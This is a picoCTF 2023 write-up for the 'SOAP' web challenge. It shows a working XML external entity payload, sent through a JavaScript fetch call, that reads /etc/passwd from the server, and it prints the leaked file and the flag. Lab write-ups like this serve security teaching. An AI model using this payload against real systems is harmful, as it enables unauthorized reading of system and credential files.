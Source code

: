 ```yaml
---
title: picoCTF 2023 – SOAP
tags: web xxe injection
---
```


## Challenge

> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Screenshot of the website:

![](/assets/ctf/picoCTF2023/SOAP.png)

## Solution

Clicking on `Details` executes a request. Copying the request as `fetch`:
{%raw%}
```js
fetch("[url]/data", {
    "body": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><data><ID>1</ID></data>",
    "cache": "default",
    "credentials": "omit",
    "headers": {
        "Accept": "*/*",
        "Accept-Language": "en-GB,en;q=0.9",
        "Cache-Control": "no-cache",
        "Content-Type": "application/xml",
        "Pragma": "no-cache",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.3 Safari/605.1.15"
    },
    "method": "POST",
    "mode": "cors",
    "redirect": "follow",
    "referrer": "[url]",
    "referrerPolicy": "strict-origin-when-cross-origin"
})
```
{%endraw%}

The transmitted data seems to be XML, so we'll try to read the file using an [XML external entity attack (XXE)](https://en.wikipedia.org/wiki/XML_external_entity_attack). Modified `fetch`:

{%raw%}
```js
await fetch("[url]/data", {
    "body": "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><data><ID>&test;</ID></data>",
    "cache": "default",
    "credentials": "omit",
    "headers": {
        "Accept": "*/*",
        "Accept-Language": "en-GB,en;q=0.9",
        "Cache-Control": "no-cache",
        "Content-Type": "application/xml",
        "Pragma": "no-cache",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.3 Safari/605.1.15"
    },
    "method": "POST",
    "mode": "cors",
    "redirect": "follow",
    "referrer": "[url]",
    "referrerPolicy": "strict-origin-when-cross-origin"
}).then(r => r.text())
```
{%endraw%}

This returns:

{%raw%}
```txt
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
{%endraw%}